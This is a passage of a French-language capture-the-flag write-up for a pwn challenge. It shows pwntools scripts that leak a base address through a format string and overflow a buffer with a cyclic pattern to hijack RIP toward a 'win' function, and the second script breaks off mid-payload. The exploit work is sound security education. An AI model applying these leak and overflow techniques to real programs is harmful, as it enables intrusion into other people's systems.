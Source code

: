 Pour cela, regardons la fonction "AAAAAAAA" de plus près:



![](/lib/images/writeups/german_fcsc/pwn//upload_a60bfa047591a673e9478d59fa406b35.png)



Il faut entrer un "secret" afin de pouvoir exploiter la vulnérabilité, sinon le programme se termine. De plus, on sait que le buffer est d'une taille de "0xff".

```python
#!/usr/bin/python2

from pwn import *

FORMATSTRING = "|%47$p|"

p = process('./pwn1')
print(p.recvuntil('name:'))
p.sendline(FORMATSTRING)
leak = p.recvuntil('spell:').split('|')

base_addr = int(leak[-2], 16)-0x36f
log.info("Adresse de base: {}".format(hex(base_addr)))

win_offset = base_addr+0x267
log.info("Adresse de la fonction win: {}".format(hex(win_offset)))

raw_input("gdb attach")
p.sendline("Expelliarmus\x00"+cyclic(0xfff)) # <-- PAYLOAD
p.interactive()
```

On place notre payload après le "raw_input()" afin de pouvoir s'attacher et process et voir où il crash.

![](/lib/images/writeups/german_fcsc/pwn//upload_cd368400aa6308cb2c4dc69eb32efbb8.png)

L'adresse situé dans le registre RIP contient en réalité une chaine de caractère "cnaacoaa". Cette chaine est le résultat de la fonction "cyclic", qui va générer une chaine d'une taille demandée unique permettant de connaitre la taille du buffer avant le crash.

Maintenant que l'on connait la taille du buffer, il est possible de contrôler RIP et ainsi pouvoir jump sur la fonction win.

```python
#!/usr/bin/python2

from pwn import *

FORMATSTRING = "|%47$p|"

p = process('./pwn1')
print(p.recvuntil('name:'))
p.sendline(FORMATSTRING)
leak = p.recvuntil('spell:').split('|')

base_addr = int(leak[-2], 16)-0x36f
log.info("Adresse de base: {}".format(hex(base_addr)))

win_offset = base_addr+0x267
log.info("Adresse de la fonction win: {}".format(hex(win_offset)))

raw_input("gdb attach")

PAYLOAD = "Expelliarmus\x00"        # <-- Secret
PAYLOAD += "A"*cyclic_find("cnaa")  # <-- PADDING
```
